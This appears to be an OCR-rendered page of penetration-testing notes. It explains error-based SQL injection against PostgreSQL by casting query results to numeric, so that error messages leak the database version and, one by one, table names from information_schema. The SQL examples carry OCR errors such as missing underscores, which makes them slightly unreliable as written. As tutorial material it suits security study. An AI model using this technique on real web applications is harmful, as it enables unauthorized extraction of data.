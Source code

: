 # postgreSQL Server

To exploit a SQLi on a web application using PostgreSQL, you have to leverage the cast technique we saw for MSSQL

You can use this technique to extract the DB version:

```text
# select cast(version() as numeric);

ERROR: invalid input syntax for type numeric: "PostgreSQL 9.1.15 on x86_64-unknown-linux-gnu, compiled by gg (Debian 4.7.2-5) 4.7.2, 64-bit"
```

Or the tables, by iterating over the information\_schema special database:

```text
dbname=# select cast ((select table name from information schema.tables limit 1 offset 0) as numeric); 
ERROR: invalid input syntax for type numeric: "pg_statistic"

dbname=# select cast ((select table name from information schema.tables limit 1 offset 1) as numeric); 
ERROR: invalid input syntax for type numeric: "pg_type"

dbname=# select cast ((select table name from information schema.tables limit 1 offset 2) as numeric); 
ERROR: invalid input syntax for type numeric: "pg_attribute"
```



